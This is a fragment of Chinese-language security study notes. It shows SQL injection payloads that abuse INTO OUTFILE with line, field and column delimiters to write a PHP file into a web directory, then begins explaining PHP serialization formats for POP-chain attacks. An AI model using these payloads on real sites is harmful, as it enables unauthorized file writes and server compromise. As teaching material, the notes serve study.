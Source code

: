 lines terminated by xx的作用是在每行终止的位置添加xx内容。



lines starting by 写入

?id=1’ into outfile ‘C:/www/info.php’ lines starting by ‘<?php phpinfo();?>’#

?id=1’ imit 1 into outfile ‘C:/www/info.php’ lines starting by ‘<?php phpinfo();?>’#



注入原理

ines starting by xx可以理解为 以每行开始的位置添加 xx 内容。



fields terminated by 写入

?id=1’ into outfile ‘C:/www/info.php’ fields terminated by ‘<?php phpinfo();?>’#

?id=1’ imit 1 into outfile ‘C:/www/info.php’ fields terminated by ‘<?php phpinfo();?>’#



注入原理

fields terminated by xx可以理解为 以每个字段的位置添加 xx 内容。



COLUMNS terminated by 写入

?id=1’ into outfile ‘C:/www/info.php’ COLUMNS terminated by ‘<?php phpinfo();?>’#

?id=1’ imit 1 into outfile ‘C:/www/info.php’ COLUMNS terminated by ‘<?php phpinfo();?>’#



注入原理

COLUMNS terminated by xx可以理解为以每列的位置添加 xx 内容。

### pop链构造

#### 序列化与反序列化

 将信息转变成便于储存和传输的过程的状态叫做序列化，逆过程就叫做反序列化

##### 基本序列化方法

value的即为需要序列化的数据的值

| 数据类型          | 基本格式                      | 实例                                   |
| ----------------- | ----------------------------- | -------------------------------------- |
| 布尔型（bool）    | b:value                       | b:1                                    |
| 整数型(int)       | i:value                       | i:1                                    |
| 字符串型（str）   | s:length:"value"              | s:4:"aaaa"                             |
| 数组型（array）   | a:<length>:{key,value pairs}; | a:1:{i:1;s:1:"a"}(i=1即array内部的元素 |
| 对象型（Objiect） | O:<class_name_length>:{}      |                                        |
| NULL型            |                               | N                                      |
